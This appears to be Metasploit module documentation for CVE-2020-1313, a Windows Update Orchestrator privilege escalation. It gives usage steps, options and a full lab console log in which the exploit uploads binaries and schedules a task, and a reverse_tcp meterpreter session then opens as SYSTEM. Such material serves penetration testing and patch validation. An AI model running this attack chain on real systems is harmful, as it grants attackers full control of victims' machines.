 ## Vulnerable Application

Windows 10 and Server x64 build versions above 17763  to 19041.

### Introduction

This module abuses CVE-2020-1313, a unchecked API call that allows a
regular user to schedule a job that will run as system.  The API call,
`ScheduleWork`, will create a task in the System Update Orchestrator
automatically scheduled to run at a time when the system is expected
to be idle.  The user cannot request or affect the scheduled time of
execution.  The scheduled job data is stored in
`HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate\\Orchestrator\\UScheduler\\x`
Where `x` is a numeric key assigned to the job.

## Verification Steps

  1. Start msfconsole
  2.  use exploit/multi/handler
  3. set payload <payload>
  4. set [r|l]host
  5. run (leave running)
  6. Start msfconsole
  7. use windows/local/cve_2020_1313_system_orchestrator
  8. set session <session>
  9. set payload <payload_matching_above>
  10. set verbose true
  11. Verify The job is scheduled
  12. Leave everything running
  13. Go to bed
  14. Have a healthy Breakfast, maybe some coffee if you want
  15. verify you got a callback as SYSTEM

## Options

  **EXECUTE_DELAY**
  The number of seconds to sleep after uploading the exploit and
  launching it.

  **EXPLOIT_NAME**
  The name of the exploit EXE as it will appear on target
  
  **EXPLOIT_TIMEOUT**
  The maximum time to wait for a response from the exploit binary.

  **PAYLOAD_NAME**
  The name of the payload EXE as it will appear on target

  **WRITABLE_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  This directory will require manual cleanup.

## Scenarios

### Tested on Windows10 x64 Release 1903

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 12 opened (192.168.135.197:4567 -> 192.168.132.134:49678) at 2020-09-21 19:05:44 -0500
sessions -i -1
[*] Starting interaction with 12...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 12...
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > show options

Module options (exploit/windows/local/cve_2020_1313_system_orchestrator):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          11               yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4568             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > set session 12
session => 12
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > run

[*] Build Number = 18362
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 12
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Uploading Payload to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[*] Running Exploit
[*] Exploit Output:
Obtaining reference to IUniversalOrchestrator
Scheduling work with id 47790
Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
[*] Cleaning up C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[+] Payload Scheduled for execution at 2020-09-22 08:53:47 -0500
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > 

[SECONDARY WINDOW FOR CALLBACK]
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -j
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444

msf6 exploit(multi/handler) > set lport 4568
lport => 4568
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.135.197:4568 
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4568

msf6 exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4568 -> 192.168.132.134:49681) at 2020-09-21 20:09:45 -0500
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-CL5L2IH  192.168.135.197:4568 -> 192.168.132.134:49681 (192.168.132.134)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
